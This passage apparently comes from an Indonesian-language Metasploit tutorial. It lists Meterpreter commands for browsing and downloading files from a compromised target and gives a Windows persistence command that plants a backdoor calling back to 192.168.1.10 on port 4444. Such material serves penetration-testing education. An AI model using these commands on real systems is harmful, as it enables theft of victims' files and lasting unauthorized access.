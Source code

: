    ![](https://github.com/fixploit03/Belajar-Metasploit/blob/main/img/webcam%202.jpeg)

   > Ini hanya sample gambar.

## F. File & Data Collection

| Perintah | Fungsi |
|:--:|:--:|
| `ls`, `cd`, `pwd` | Navigasi file |
| `download <PATH_FILE>` | Unduh file dari target |
| `upload <PATH_FILE>` | Upload file ke target |
| `search -f *.docx` | Cari semua file yang meimiliki ekstensi `.docx` |
| `cat <PATH_FILE>` | Lihat isi file|

## G. Persistence (Backdoor)

Contoh membuat persistence di Windows:

```
run persistence -U -i 5 -p 4444 -r 192.168.1.10
```
